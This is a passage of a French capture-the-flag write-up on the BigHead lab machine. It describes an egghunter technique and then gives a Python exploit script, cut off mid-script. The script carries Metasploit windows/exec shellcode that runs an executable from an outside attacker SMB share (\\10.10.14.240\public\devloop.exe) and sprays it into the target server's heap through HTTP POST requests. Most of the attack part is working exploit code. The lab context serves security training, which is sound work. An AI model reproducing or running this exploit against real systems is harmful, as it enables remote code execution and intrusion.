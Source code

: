 J'ai du faire face ici à deux difficultés :   

* Je ne voulais pas explorer la totalité de la mémoire du process (4Go ça fait beaucoup) surtout que l'on sait que l'on doit chercher sur le tas
* Le egghunt plantait car il se trouvait lui même. Il faut donc que le tag (octets servant d'identifiant pour reconnaître le début du shellcode) ne soit pas présent tel quel dans le egghunt

Ces problématiques ont été adressées de cette façon :  

* On sait que le thread fait des *malloc()/memset()* donc on s'attend à trouver un pointeur vers une zone alloué en remontant la pile. En l’occurrence un *pop* suffit :D
* Pour le tag il suffit d'avoir sa valeur - 1 dans le egghunt et de l'incrémenter en assembleur avant de le rechercher

Cela nous donne l'exploit suivant :  

```python
import socket
import struct
from binascii import hexlify
from time import sleep

TARGET = '10.10.10.112'
PORT = 80

jmp_eax = 0x625012F2  # JMP EAX from bHeadSvr.dll
egg = "LOTF"
egg_minus_one = struct.unpack("I", egg.encode())[0] - 1

# Metasploit windows/exec shellcode with EXITFUNC=thread
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d"
buf += b"\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5"
buf += b"\\\\10.10.14.240\\public\\devloop.exe"
buf += b"\x00"

data = egg.encode() + buf

socket.setdefaulttimeout(5)

# On insère plusieurs fois notre shellcode dans la mémoire du process, ça peut permettre de le trouver plus vite
for i in range(10):
    print(i)
    sock = socket.socket()
    sock.connect((TARGET, PORT))

    buff = b"POST / HTTP/1.1\r\n"
    buff += b"Host: dev.bighead.htb\r\n"
    buff += "Content-Length: {}\r\n\r\n".format(len(data)).encode()
    buff += data
    try:
        sock.send(buff)
```